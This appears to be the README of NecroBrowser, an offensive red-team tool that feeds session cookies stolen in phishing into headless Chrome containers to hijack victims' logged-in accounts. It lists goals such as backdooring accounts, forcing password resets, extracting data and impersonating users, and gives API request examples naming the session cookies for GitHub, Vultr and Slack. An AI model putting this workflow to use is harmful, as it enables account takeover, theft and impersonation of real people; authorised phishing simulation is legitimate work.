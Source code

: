 <p align="center">
  <img alt="Necrobrowser Logo" src="./media/img/necrobrowser-logo.jpg"
   height="160" /><br>
	<i>help us with a logo</i>
</p>

**Necrobrowser** is browser instrumentation for necromantic session control.

## Motto

“Whoever fights monsters should see to it that in the process he does not become a monster. And if you gaze long enough into an abyss, the abyss will gaze back into you.” 
― Friedrich Nietzsche

## About

NecroBrowser is a microservice that exposes a RESTful API allowing you
to specify which target portal to instrument via a dockerized Chrome headless instance.

The target portal is instrumented hijacking an existing authenticated session. The idea is to feed
NecroBrowser with sessions harvested during phishing campaigns (see Muraena)
to quickly perform actions on the victim behalf.

Post-phishing automation is an often underestimated activity that helps:
 - performing actions after successful session harvesting on campaigns with hundreds/thousands targets
 - backdooring accounts with new keys or credentials
 - performing automated password resets
 - extruding information
 - impersonating users to further exploit trust relationships

Each authenticated session is instrumented in a Docker container and can be kept alive to be reused
after an initial set of automated tasks completed.


Since NecroBrowser is just a browser instrumentation tool, you can also write 
automation for other phishing phases, for example initial Reconnaisance and OSINT.
Ideas are plenty, for instance:
 - keep N fake personas on LinkedIn/Twitter/YourSocialNetwork active on Chrome to monitor/scrape info from your targets
 - automatically build Social Network connections 
 - automate interaction with target contact forms/chats to get target info
 
## Requirements

- Docker (base image registry.hub.docker.com/zenika/alpine-chrome:latest)

## Notes

NecroBrowser is still experimental.

Make sure you run NecroBrowser on a machine with enough RAM if you have tens of
sessions to instrument in parallel. The cap is just how many docker containers you can spawn.

If you are brave enough to try NecroBrowser in production, remember that if you run NecroBrowser
on a different IP than the one where you perform the phishing phase, you need to SOCKS/IPSEC/VPN
your way back to the phishing IP. This is actually advised, unless you have a big enough machine
where you run both your phishing tool (see Muraena) and NecroBrowser.


# API Calls
* [`POST /instrument/<TOKEN>` | Instrument a zombie](#zombies)
* [`POST /instrumentKnown/<TOKEN>` | Instrument an existing zombie](#existing-zombie)
* [`POST /status/<TOKEN>` | Check NecroBrowser status](#status)


## Zombies Examples

- [GitHub](#github)
- [Vultr](#vultr)
- [Slack](#slack)


### Github
Request (keywords is ignored for this profile):
```json
{
	"provider": "github",
	"keywords": ["supercazzola"],
	"debugPort": 9223,
	"sessionCookies": [
	  {"name": "has_recent_activity", "value":"1", "domain":"github.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
      {"name": "has_logged_in", "value":"yes", "domain":"github.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
      {"name": "dotcom_user", "value":"[...]", "domain":"github.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
      {"name": "_octo", "value":"[...]", "domain":"github.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
      {"name": "tz", "value":"1", "domain":"github.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
      {"name": "_gat", "value":"1", "domain":"github.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
	  {"name": "user_session", "value":"[...]", "domain":"github.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
	  {"name": "__Host-user_session_same_site", "value":"[...]", "domain":"github.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
	  {"name": "_gh_sess", "value":"[...]", "domain":"github.com","expires":"Session","path":"/","httpOnly":true,"secure":true}
	]
}
```

###  Vultr
Request: 

```json
{
	"provider": "vultr",
	"keywords": ["supercazzola"],
	"debugPort": 9226,
	"sessionCookies": [
		{"name": "PHPSESSID", "value":"[...]", "domain":".my.vultr.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
		{"name": "PHPSESSID_login_expire", "value":"[...]", "domain":".vultr.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
		{"name": "__cfduid", "value":"[...]", "domain":".vultr.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
		{"name": "auth_browser", "value":"[...]", "domain":".my.vultr.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
		{"name": "cookieconsent_status", "value":"[...]", "domain":".vultr.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
		{"name": "discuss_token", "value":"h%[...]%2A", "domain":".vultr.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
	    {"name": "last_login_username", "value":"[...]", "domain":"my.vultr.com","expires":"Session","path":"/","httpOnly":true,"secure":true}

	]
}
```

###  Slack

Request: 

```json
{
	"provider": "slack",
	"keywords": ["supercazzola"],
	"debugPort": 9226,
	"sessionCookies": [
		{"name": "b", "value":"[...]", "domain":".slack.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
		{"name": "d", "value":"[...]", "domain":".slack.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
		{"name": "d-s", "value":"[...]", "domain":".slack.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
		{"name": "lc", "value":"[...]", "domain":".slack.com","expires":"Session","path":"/","httpOnly":true,"secure":true},
		{"name": "x", "value":"[...]", "domain":".slack.com","expires":"Session","path":"/","httpOnly":true,"secure":true}

	]
}
```

## Existing Zombie
```json
{
	"jobId": "d2c7dec6-1d88-4184-a491-c90d5493b7ea",
	"url": "https://google.com"
	
}
```

## Status

Example response with one browser runnning:

```json
{
    "jobs": [
        {
            "id": "d2c7dec6-1d88-4184-a491-c90d5493b7ea",
            "provider": "slack",
            "Context": {
                "Context": 0
            },
            "ChromeDP": {}
        }
    ]
}
```


## License

`necrobrowser` is made with ❤️ by [the dev team](https://github.com/orgs/muraenateam/people) and it's released under the 3-Clause BSD License.
